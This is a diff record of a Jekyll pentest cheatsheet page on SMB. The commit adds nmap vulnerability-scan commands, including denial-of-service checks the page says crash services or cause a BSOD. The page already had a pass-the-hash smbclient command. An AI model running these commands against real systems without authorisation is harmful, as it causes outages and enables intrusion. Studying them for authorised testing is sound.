

Before and after one commit to agrzeslak/cheatsheet, a Jekyll site: the page built from _topics/smb.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

```diff
--- a/_topics/smb.md
+++ b/_topics/smb.md
@@ -2,20 +2,33 @@
 layout: default
 title: smb
 tags:
-    - 139
     - 445
     - block
     - message
-    - samba
     - server
     - smbclient
     - smbd
     - smbmap
 ---
 # smb
+### nmap scripts
+safe vulnerability scan
+
+`nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10`
+
+Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
+
+`nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10`
+
+CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
+
+`nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10`
+
+CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
+
+`nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10`
 
 ### Pass-the-hash
-
 List directories
 
 `smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10`
```
Also changed, not shown: _topics/ldap.md (+1 -1 lines), _topics/linux-privesc.md (+3 -9 lines), _topics/samba.md (added, +11 -0 lines).
